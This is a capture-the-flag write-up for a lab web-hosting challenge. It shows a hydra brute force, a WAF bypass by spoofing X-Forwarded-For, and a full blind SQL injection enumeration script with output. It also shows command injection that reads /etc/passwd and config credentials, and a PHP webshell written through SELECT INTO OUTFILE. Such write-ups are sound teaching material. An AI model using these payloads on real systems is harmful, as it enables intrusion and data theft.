




# Webhosting (5 points)

Hi, emergency troubleshooter,

we are preparing to put a new web hosting service into operation. Verify that
it is secure and that no secret or classified information can be accessed. The
testing instance is running on `wwwhost-new.powergrid.tcc`.

Stay grounded!

## Solution

We've been given a hostname which seems to be responding, but even though it
says it's a webhosting, it does not respond to HTTP or HTTPS requests on
standard ports.

Let's use `nmap` to see where it's listening.

```
$ nmap wwwhost-new.powergrid.tcc
Starting Nmap 7.95 ( https://nmap.org )
Nmap scan report for wwwhost-new.powergrid.tcc (10.99.25.100)
Host is up (0.012s latency).
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE
8000/tcp open  http-alt

Nmap done: 1 IP address (1 host up) scanned in 0.40 seconds
```

OK, we could have guessed, but it seems that the correct HTTP port is `8000`.
The downside is, that it still returns `404`.

```
$ curl http://wwwhost-new.powergrid.tcc:8000
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.65 (Debian) Server at wwwhost-new.powergrid.tcc Port 8000</address>
</body></html>
```

Luckily, we have other tools in our arsenal, and `dirb` can be used to discover
some content. Also, this host seems to be protected by some kind of WAF and our
scan yields a lot of `403` responses (typically for anything that includes
`dll`, `conf`, `db`, ...), so let's filter them out for more human-readable
output.

```
$ dirb http://wwwhost-new.powergrid.tcc:8000 -N 403

-----------------
DIRB v2.22
By The Dark Raver
-----------------

URL_BASE: http://wwwhost-new.powergrid.tcc:8000/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Ignoring NOT_FOUND code -> 403

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://wwwhost-new.powergrid.tcc:8000/ ----
==> DIRECTORY: http://wwwhost-new.powergrid.tcc:8000/app/

---- Entering directory: http://wwwhost-new.powergrid.tcc:8000/app/ ----
==> DIRECTORY: http://wwwhost-new.powergrid.tcc:8000/app/css/
+ http://wwwhost-new.powergrid.tcc:8000/app/index.php (CODE:302|SIZE:0)
==> DIRECTORY: http://wwwhost-new.powergrid.tcc:8000/app/lang/
==> DIRECTORY: http://wwwhost-new.powergrid.tcc:8000/app/log/
==> DIRECTORY: http://wwwhost-new.powergrid.tcc:8000/app/tools/
==> DIRECTORY: http://wwwhost-new.powergrid.tcc:8000/app/uploads/

---- Entering directory: http://wwwhost-new.powergrid.tcc:8000/app/css/ ----

---- Entering directory: http://wwwhost-new.powergrid.tcc:8000/app/lang/ ----

---- Entering directory: http://wwwhost-new.powergrid.tcc:8000/app/log/ ----

---- Entering directory: http://wwwhost-new.powergrid.tcc:8000/app/tools/ ----

---- Entering directory: http://wwwhost-new.powergrid.tcc:8000/app/uploads/ ----

-----------------
DOWNLOADED: 32284 - FOUND: 1
```

We have discovered a login form at `http://wwwhost-new.powergrid.tcc:8000/app/`
which is in Czech by default, but can be switched to English too.



The hint/banner says this is a test instance, so we can guess what the username
might be. The form seems to produce different errors for known and unknown
usernames, which makes our job easier. After a couple of guesses, we should
see that user `test` exists, because the error changes from `User not found` to
`User found, but password is incorrect.`

Since there's no CSRF protection this time (but even if this form of protection
was present, we still have our own script from previous tasks), we can use
`hydra` to discover the password. We just need to tell it to use a custom
`User-Agent`, as the default one (`Mozilla/5.0 (Hydra)`) is blocked by the WAF.

```
$ hydra -l test -P /usr/share/seclists/Passwords/Common-Credentials/Pwdb_top-10000.txt wwwhost-new.powergrid.tcc -s 8000 http-form-post '/app/login.php?lang=en:username=^USER^&password=^PASS^:H=Host\:wwwhost-new.powergrid.tcc\:8000:H=User-Agent\:curl:incorrect'
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting
[INFORMATION] escape sequence \: detected in module option, no parameter verification is performed.
[DATA] max 16 tasks per 1 server, overall 16 tasks, 10000 login tries (l:1/p:10000), ~625 tries per task
[DATA] attacking http-post-form://wwwhost-new.powergrid.tcc:8000/app/login.php?lang=en:username=^USER^&password=^PASS^:H=Host\:wwwhost-new.powergrid.tcc\:8000:H=User-Agent\:curl:incorrect
[8000][http-post-form] host: wwwhost-new.powergrid.tcc   login: test   password: testtest
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished
```

Now we can log in as the `test` user and see `Login Logs` and `Event Logs`. The
login history might show us (depending on the activity) that there's also an
`admin` user, but that would be a default guess and the login form would
confirm the presence of this user anyway. However, it's nice that we do not
need to guess and everything is supported by hints or info that we find along
the way.

The event logs section contains more important information. It says that the
system has detected SQL injection (and still might be vulnerable). Another
essential piece of information is `Modsecurity - IP 203.0.113.10 whitelisted`.
Since our SQL injection attempts might be blocked by a WAF, this might be a way
to bypass these restrictions. Let's test it.

```
$ curl 'http://wwwhost-new.powergrid.tcc:8000/app/login.php?lang=en' -d "username=admin'--&password=something"
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access this resource.</p>
<hr>
<address>Apache/2.4.65 (Debian) Server at wwwhost-new.powergrid.tcc Port 8000</address>
</body></html>

$ curl -v -H 'X-Forwarded-For: 203.0.113.10' 'http://wwwhost-new.powergrid.tcc:8000/app/login.php?lang=en' -d "username=admin'--&password=something"
* Host wwwhost-new.powergrid.tcc:8000 was resolved.
* IPv6: (none)
* IPv4: 10.99.25.100
*   Trying 10.99.25.100:8000...
* Connected to wwwhost-new.powergrid.tcc (10.99.25.100) port 8000
* using HTTP/1.x
> POST /app/login.php?lang=en HTTP/1.1
> Host: wwwhost-new.powergrid.tcc:8000
> User-Agent: curl/8.15.0
> Accept: */*
> X-Forwarded-For: 203.0.113.10
> Content-Length: 36
> Content-Type: application/x-www-form-urlencoded
>
* upload completely sent off: 36 bytes
* HTTP 1.0, assume close after body
< HTTP/1.0 500 Internal Server Error
< Server: Apache/2.4.65 (Debian)
< Content-Length: 0
< Connection: close
< Content-Type: text/html; charset=UTF-8
<
* shutting down connection #0
```

The good news is that the `X-Forwarded-For` header really bypasses the checks and
we're not getting `403` anymore. The bad news is that in case of an error the
server just returns `500 Internal Server Error` and does not really tell us
what's wrong. However, it seems that a username of `admin'#comment` yields
`User found, but password is incorrect.`, which indicates that the username
really seems to be vulnerable to SQL injection. However, it will be a blind one
and we'll just need to use true/false indicators (i.e. `User not found` vs.
`User found, but password is incorrect.`) to discover information.

Let's check by using `' or exists(select null from information_schema.tables) or '1'='2`
as the username.

```
$ curl -s -H 'X-Forwarded-For: 203.0.113.10' 'http://wwwhost-new.powergrid.tcc:8000/app/login.php?lang=en' -d "username=' or exists (select null from information_schema.tables) or '1'='2&password=" | xq -q ".alert-danger"
User found, but password is incorrect.
```

Since the system does not contain a user with a blank username and the query
has not yielded `500 Internal Server Error`, this indicates that the
`information_schema.tables` table exists.

We can try enumerating the tables by issuing a series of queries like this:

```sql
exists(select null from information_schema.tables where table_name like 'a%');
exists(select null from information_schema.tables where table_name like 'b%');
```

As we can see, this would be too exhausting to do manually, so let's write a
helper script.

```python
#!/usr/bin/env python3
import argparse
import requests
import string


class BlindSQLiEnumerator:
    def __init__(self,
                 query_template,
                 charset=None,
                 target_url="http://wwwhost-new.powergrid.tcc:8000/app/login.php?lang=en",
                 success_indicator="User found"):
        """
        Initialize the generic SQL injection enumerator.

        Args:
            target_url (str): Target URL to send requests to
            query_template (str): SQL query template for matching (use {cond} placeholder)
            success_indicator (str): String in response that indicates successful query
            charset (str): Character set to use for enumeration (default: lowercase + underscore)
        """
        self.target_url = target_url
        self.query_template = query_template
        self.success_indicator = success_indicator
        self.session = requests.Session()

        # Character set: lowercase letters + underscore by default
        self.charset = charset or (string.ascii_lowercase + '_')

        # Found values
        self.found_values = set()

        # Request headers
        self.headers = {
            'X-Forwarded-For': '203.0.113.10'
        }

    def _send_payload(self, payload):
        try:
            data = {
                'username': payload,
                'password': 'idk'
            }

            response = self.session.post(
                self.target_url,
                data=data,
                headers=self.headers,
                timeout=10,
                allow_redirects=True
            )

            return self.success_indicator in response.text

        except requests.RequestException as e:
            print(f"[!] Request failed: {e}")
            return False

    def _create_payload(self, value: str, is_exact: bool = False):
        """
        Create SQL injection payload to check if values with given prefix exist.

        Args:
            value (str): Value to check
            is_exact (bool): Whether to create payload for exact match
        Returns:
            str: SQL injection payload
        """
        # Escape single quotes and LIKE wildcards in value
        escaped_value = value.replace("'", "''")  # Escape single quotes

        if is_exact:
            formatted_query = self.query_template.format(
                cond=f"='{escaped_value}'")
        else:
            escaped_value = escaped_value.replace("_", "\\_")  # Escape underscore wildcard
            escaped_value = escaped_value.replace("%", "\\%")  # Escape percent wildcard
            formatted_query = self.query_template.format(
                cond=f" LIKE '{escaped_value}%'")

        payload = f"' or exists(select null from {formatted_query}) or '1'='2"

        return payload

    def _is_complete_value(self, prefix):
        return self._send_payload(self._create_payload(prefix, is_exact=True))

    def _enumerate_values_dfs(self, prefix="", max_depth=50):
        """
        Enumerate values using depth-first search.

        Args:
            prefix (str): Current prefix being explored
            max_depth (int): Maximum recursion depth to prevent infinite loops
        """
        if max_depth <= 0:
            print(f"[!] Maximum depth reached for prefix: {prefix}")
            return False

        # Check if current prefix matches any values
        if not self._send_payload(self._create_payload(prefix)):
            return False  # No values start with this prefix

        something_found = False
        # Check if this might be a complete value
        if len(prefix) > 0:
            if self._is_complete_value(prefix):
                print(f"[+] Found complete value: {prefix}")
                self.found_values.add(prefix)
                something_found = True
                # Don't return - there might be longer values with this prefix

        # Try extending the prefix with each character
        for char in self.charset:
            new_prefix = prefix + char
            # print(f"[*] Exploring prefix: {new_prefix}")
            something_found |= self._enumerate_values_dfs(new_prefix, max_depth - 1)

        if not something_found:
            print(f"[-] Prefix {prefix} matches but charset is insufficient to find complete value")
        return True

    def enumerate_values(self, max_value_length=50):
        print(f"[*] Starting blind SQL injection value enumeration")
        print(f"[*] Target: {self.target_url}")
        print(f"[*] Query template: {self.query_template}")
        print(f"[*] Success indicator: '{self.success_indicator}'")
        print(f"[*] Character set: {self.charset}")
        print("-" * 60)

        try:
            # Start DFS from empty prefix
            self._enumerate_values_dfs("", max_value_length)

        except KeyboardInterrupt:
            print("\n[!] Enumeration interrupted by user")

        print("-" * 60)
        print(f"[*] Enumeration complete!")

        return self.found_values


def main():
    parser = argparse.ArgumentParser(
        description='Blind SQL Injection Enumerator',
        formatter_class=argparse.RawDescriptionHelpFormatter,
        epilog='''
Examples:
    %(prog)s "users where username{cond}"
    %(prog)s "users where username{cond}" "abcdefghijklmnopqrstuvwxyz0123456789_"
        '''
    )

    parser.add_argument(
        'query_template',
        help='SQL query template with {cond} placeholder (e.g., "users where username{cond}")'
    )

    parser.add_argument(
        'charset',
        nargs='?',
        default=None,
        help='Character set for enumeration (default: lowercase letters + underscore)'
    )

    args = parser.parse_args()

    # Create enumerator instance
    enumerator = BlindSQLiEnumerator(
        query_template=args.query_template,
        charset=args.charset
    )

    # Run enumeration
    enumerator.enumerate_values()


if __name__ == "__main__":
    main()
```

Now let's use the script to find what tables are there in the database:

```
$ ./blind_sqli_enum.py "information_schema.tables where table_name{cond}"
[*] Starting blind SQL injection value enumeration
[*] Target: http://wwwhost-new.powergrid.tcc:8000/app/login.php?lang=en
[*] Query template: information_schema.tables where table_name{cond}
[*] Success indicator: 'User found'
[*] Character set: abcdefghijklmnopqrstuvwxyz_
------------------------------------------------------------
[+] Found complete value: all_plugins
[+] Found complete value: applicable_roles
[+] Found complete value: character_sets
[+] Found complete value: check_constraints
[+] Found complete value: client_statistics
[+] Found complete value: collations
[+] Found complete value: collation_character_set_applicability
[+] Found complete value: columns
[+] Found complete value: column_privileges
[+] Found complete value: enabled_roles
[+] Found complete value: engines
[+] Found complete value: events
[+] Found complete value: files
[+] Found complete value: geometry_columns
[+] Found complete value: global_status
[+] Found complete value: global_variables
[+] Found complete value: index_statistics
[+] Found complete value: innodb_buffer_page
[+] Found complete value: innodb_buffer_page_lru
[+] Found complete value: innodb_buffer_pool_stats
[+] Found complete value: innodb_cmp
[+] Found complete value: innodb_cmpmem
[+] Found complete value: innodb_cmpmem_reset
[+] Found complete value: innodb_cmp_per_index
[+] Found complete value: innodb_cmp_per_index_reset
[+] Found complete value: innodb_cmp_reset
[+] Found complete value: innodb_ft_being_deleted
[+] Found complete value: innodb_ft_config
[+] Found complete value: innodb_ft_default_stopword
[+] Found complete value: innodb_ft_deleted
[+] Found complete value: innodb_ft_index_cache
[+] Found complete value: innodb_ft_index_table
[+] Found complete value: innodb_locks
[+] Found complete value: innodb_lock_waits
[+] Found complete value: innodb_metrics
[+] Found complete value: innodb_sys_columns
[+] Found complete value: innodb_sys_fields
[+] Found complete value: innodb_sys_foreign
[+] Found complete value: innodb_sys_foreign_cols
[+] Found complete value: innodb_sys_indexes
[+] Found complete value: innodb_sys_tables
[+] Found complete value: innodb_sys_tablespaces
[+] Found complete value: innodb_sys_tablestats
[+] Found complete value: innodb_sys_virtual
[+] Found complete value: innodb_tablespaces_encryption
[+] Found complete value: innodb_trx
[+] Found complete value: keywords
[+] Found complete value: key_caches
[+] Found complete value: key_column_usage
[+] Found complete value: login_logs
[+] Found complete value: optimizer_trace
[+] Found complete value: parameters
[+] Found complete value: partitions
[+] Found complete value: plugins
[+] Found complete value: processlist
[+] Found complete value: profiling
[+] Found complete value: referential_constraints
[+] Found complete value: routines
[+] Found complete value: schemata
[+] Found complete value: schema_privileges
[+] Found complete value: session_account_connect_attrs
[+] Found complete value: session_status
[+] Found complete value: session_variables
[+] Found complete value: spatial_ref_sys
[+] Found complete value: sql_functions
[+] Found complete value: statistics
[+] Found complete value: system_variables
[+] Found complete value: tables
[+] Found complete value: tablespaces
[+] Found complete value: table_constraints
[+] Found complete value: table_privileges
[+] Found complete value: table_statistics
[+] Found complete value: thread_pool_groups
[+] Found complete value: thread_pool_queues
[+] Found complete value: thread_pool_stats
[+] Found complete value: thread_pool_waits
[+] Found complete value: triggers
[+] Found complete value: users
[+] Found complete value: user_privileges
[+] Found complete value: user_statistics
[+] Found complete value: user_variables
[+] Found complete value: views
------------------------------------------------------------
[*] Enumeration complete!
```

We can see that there's a table called `users` (we could have guessed), so
let's use the script again to list its columns:

```
$ ./blind_sqli_enum.py "information_schema.columns where table_name='users' and column_name{cond}"
[*] Starting blind SQL injection value enumeration
[*] Target: http://wwwhost-new.powergrid.tcc:8000/app/login.php?lang=en
[*] Query template: information_schema.columns where table_name='users' and column_name{cond}
[*] Success indicator: 'User found'
[*] Character set: abcdefghijklmnopqrstuvwxyz_
------------------------------------------------------------
[+] Found complete value: id
[+] Found complete value: password_hash
[+] Found complete value: username
------------------------------------------------------------
[*] Enumeration complete!
```

And one more time, let's try to find the password_hash of the `admin` user:

```
$ ./blind_sqli_enum.py "users where username='admin' and password_hash{cond}"
[*] Starting blind SQL injection value enumeration
[*] Target: http://wwwhost-new.powergrid.tcc:8000/app/login.php?lang=en
[*] Query template: users where username='admin' and password_hash{cond}
[*] Success indicator: 'User found'
[*] Character set: abcdefghijklmnopqrstuvwxyz_
------------------------------------------------------------
[-] Prefix d matches but charset is insufficient to find complete value
------------------------------------------------------------
[*] Enumeration complete!
```

We're on the right track, but the password hash value uses a wider character
set. Let's try the alphanumeric one:

```
$ ./blind_sqli_enum.py "users where username='admin' and password_hash{cond}" "abcdefghijklmnopqrstuvwxyz0123456789"
[*] Starting blind SQL injection value enumeration
[*] Target: http://wwwhost-new.powergrid.tcc:8000/app/login.php?lang=en
[*] Query template: users where username='admin' and password_hash{cond}
[*] Success indicator: 'User found'
[*] Character set: abcdefghijklmnopqrstuvwxyz0123456789
------------------------------------------------------------
[+] Found complete value: d2982588f016f8dfd57a3fc4ac071cc013a8666a
------------------------------------------------------------
[*] Enumeration complete!
```

The next step we need to do is to crack the hash. We can either try to do it
locally, or we can try using [CrackStation] to see whether it is not some
already-cracked "well-known" hash (or at least whether using pre-computed
hashes won't make it faster). Regardless of the method, we should discover that
our hash is `sha1` of `Princess25`.



Since we are now equipped with both username and password, we can log in to
`wwwhost-new.powergrid.tcc` as `admin`. We can also see two new menu items that
we have not seen before as the `test` user.

* Admin Tools
* DB manager



The `Admin Tools` menu brings us to the "log viewer", where we can modify the
number of lines that we want to see. After playing with the form for a while,
we discover that:

* modifying the `file` value (which is not being sent to the server by default
  anyway) has no effect
* entering a non-numeric value in the `Number of lines` field yields no results
* entering a negative number in the `Number of lines` field shows all lines minus
  the entered value

Based on that, we can guess that there's probably a `head` command being
executed on the backend and the value is passed to it as the first argument. That
means that if our "number" contained also a filename, it would appear on the
executed command line before `/var/www/html/app/log/logins.log` and we should be
able to see the content of that file instead.

Trying to send `1000 /etc/passwd` from the website results in `403 Forbidden`,
but we already know the whitelisted IP so we can use the same trick. We just
must not forget to send the session cookie of our session where we're
authenticated as `admin`.

```
$ curl -s 'http://wwwhost-new.powergrid.tcc:8000/app/admin_tools.php' -H 'Cookie: PHPSESSID=...' -H "X-Forwarded-For: 203.0.113.10" -d 'lines=1000 /etc/passwd' | xq -q pre
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
mysql:x:100:101:MySQL Server,,,:/nonexistent:/bin/false
```

This allows us to display any file on the server. The problem is that we have
no idea in which file the flag is stored (or even if it is in a file). Those of
us who do not possess the powers of the [Oracle of Delphi] (which has nothing
to do with "IT meanings" of neither Oracle nor Delphi) therefore need to find
a better way to explore the server and find the flag.

Since we already know that the logs are located at `/var/www/html/app/log/logins.log`,
we can try enumerating some well-known file names to see if they exist and
what they contain. `/var/www/html/app/config.php` is particularly interesting.

```
$ curl -s 'http://wwwhost-new.powergrid.tcc:8000/app/admin_tools.php' -H 'Cookie: PHPSESSID=...' -H "X-Forwarded-For: 203.0.113.10" -d 'lines=1000 /var/www/html/app/config.php' | xq -q pre
<?php
session_start();

define('DB_HOST', 'localhost');
define('DB_NAME', 'myapp');
//define('DB_USER', 'developer');
define('DB_USER', 'svc_myapp');
define('DB_PASS', '423e5dc8f0db6b19c85d87d69af31844');

define('LOGINS', __DIR__ . '/log/logins.log');

$language_files = [
    'cs' => 'lang/cs.php',
    'en' => 'lang/en.php',
];

$lang = $_GET['lang'] ?? $_SESSION['lang'] ?? 'cs';
if (!array_key_exists($lang, $language_files)) {
    $lang = 'cs';
}
$_SESSION['lang'] = $lang;

require_once __DIR__ . '/' . $language_files[$lang];
```

We have two username candidates for the database and one password. We can now
use the `DB manager` from the admin menu to log in to the database. Also, both
of the accounts are still enabled and use the same password.

If we execute `SHOW VARIABLES LIKE "secure%"` via DB manager, we will discover
that the `developer` user has the `secure_file_priv` variable set to
`/var/www/html/app/uploads/`, which means that we should be able to create a
file in that directory using the DB manager. In addition to that, this
directory is accessible via HTTP (and was present in the `dirb` results), so we
should be able to create a PHP webshell there and then use it for exploration.

Let's execute this SQL:

```sql
SELECT '<?php header("Content-Type:text/plain"); if(isset($_POST["c"])) { $cmd = $_POST["c"]; echo shell_exec($cmd . " 2>&1"); }' INTO OUTFILE '/var/www/html/app/uploads/yaneek-writeup.php';
```



With the webshell in place, we can freely explore what is on the server. 

```
$ curl -s 'http://wwwhost-new.powergrid.tcc:8000/app/uploads/yaneek-writeup.php' -H "X-Forwarded-For: 203.0.113.10" -d 'c=ls -la /'
total 80
drwxr-xr-x   1 root root 4096 Nov  1 01:10 .
drwxr-xr-x   1 root root 4096 Nov  1 01:10 ..
-rwxr-xr-x   1 root root    0 Nov  1 01:10 .dockerenv
lrwxrwxrwx   1 root root    7 Oct 20 00:00 bin -> usr/bin
drwxr-xr-x   2 root root 4096 Aug 24 16:05 boot
drwxr-xr-x   5 root root  340 Nov  1 01:10 dev
-rwxrwxrwx   1 root root 2425 Oct 22 00:10 entrypoint.sh
drwxr-xr-x   1 root root 4096 Nov  1 01:10 etc
drwxr-xr-x   2 root root 4096 Aug 24 16:05 home
lrwxrwxrwx   1 root root    7 Oct 20 00:00 lib -> usr/lib
lrwxrwxrwx   1 root root    9 Oct 20 00:00 lib64 -> usr/lib64
drwxr-xr-x   2 root root 4096 Oct 20 00:00 media
drwxr-xr-x   2 root root 4096 Oct 20 00:00 mnt
drwxr-xr-x   1 root root 4096 Oct 22 00:10 opt
dr-xr-xr-x 498 root root    0 Nov  1 01:10 proc
drwx------   2 root root 4096 Oct 20 00:00 root
drwxr-xr-x   1 root root 4096 Nov  1 01:10 run
lrwxrwxrwx   1 root root    8 Oct 20 00:00 sbin -> usr/sbin
drwxr-xr-x   2  755 root 4096 Nov  1 01:10 secrets
drwxr-xr-x   2 root root 4096 Oct 20 00:00 srv
dr-xr-xr-x  13 root root    0 Oct 22 17:16 sys
drwxrwxrwt   1 root root 4096 Nov  1 11:09 tmp
drwxr-xr-x   1 root root 4096 Oct 20 00:00 usr
drwxr-xr-x   1 root root 4096 Oct 22 00:10 var
```

Exploration will lead us to `/secrets/flag.txt` which contains the flag we're
looking for.

```
$ curl -s 'http://wwwhost-new.powergrid.tcc:8000/app/uploads/yaneek-writeup.php' -H "X-Forwarded-For: 203.0.113.10" -d 'c=cat /secrets/flag.txt'
FLAG{BCba-VkYk-Kw3N-HFPw}
```

[CrackStation]: https://crackstation.net
[Oracle of Delphi]: https://en.wikipedia.org/wiki/Oracle_of_Delphi
